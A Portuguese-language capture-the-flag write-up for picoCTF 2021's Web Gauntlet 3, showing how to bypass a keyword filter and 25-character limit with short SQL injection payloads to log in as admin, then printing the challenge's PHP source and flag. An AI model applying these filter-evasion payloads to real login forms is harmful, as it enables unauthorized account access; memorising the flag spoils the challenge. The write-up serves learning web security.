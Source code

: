 # DuckWare Team - Web Gauntlet 3 (picoCTF 2021)
###### Solved by @0xpics and @JoaoPedroPiceli  
>This CTF is about SQL Injection, Web exploitation  

# Desafio: Injeção SQL com Limite de Caracteres  

## Introdução  
Este desafio é uma variação do **Web Gauntlet 2**, explorando a mesma vulnerabilidade de **Injeção SQL**. A principal diferença é a **limitação de 25 caracteres** para o input de login e senha, exigindo um payload ainda mais curto.  

- **Página de Login:**[http://mercury.picoctf.net:29772/](http://mercury.picoctf.net:28715)  

[![imagem-2025-02-13-134723077.png](https://i.postimg.cc/5Nz0Fnrt/imagem-2025-02-13-134723077.png)](https://postimg.cc/w76HCcgK)
 
- **Página com Filtro:** [http://mercury.picoctf.net:29772/filter.php](http://mercury.picoctf.net:28715/filter.php)  
- **Filtro:** or and true false union like = > < ; -- /* */ admin  

## Descrição do Desafio  
O desafio mantém a vulnerabilidade de **Injeção SQL no login**, mas impõe um **limite de 25 caracteres** para impedir explorações mais extensas. Como os filtros são os mesmos do desafio anterior, a principal estratégia é otimizar o payload.  

## Estratégia de Solução  

### Manipulação do Campo de Usuário  
O nome de usuário `"admin"` está filtrado, então utilizamos a concatenação `||` para contornar essa restrição:  

- **Username:** `ad'||'min`  

### Manipulação do Campo de Senha  
O uso de **`OR`** está bloqueado, então precisamos de uma expressão curta que avalie como verdadeira sem ultrapassar o limite de caracteres:  

- **Password:** `r' IS NOT 'z`  

Com esses valores, conseguimos acessar a conta de administrador e receber a mensagem:  
*“Parabéns! Você ganhou! Confira filter.php”*  

[![imagem-2025-02-13-134928504.png](https://i.postimg.cc/fLkWWKXD/imagem-2025-02-13-134928504.png)](https://postimg.cc/WFLcX0XH)

## Recuperando a Bandeira  
Após realizar o login, basta recarregar `filter.php` para visualizar o código-fonte do desafio. A bandeira está nos comentários do código:  

```php
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_2a78ea34c84da0bf585ada4cb9a6f8fb}
?>
```

### Flag: **picoCTF{k3ep_1t_sh0rt_2a78ea34c84da0bf585ada4cb9a6f8fb}**


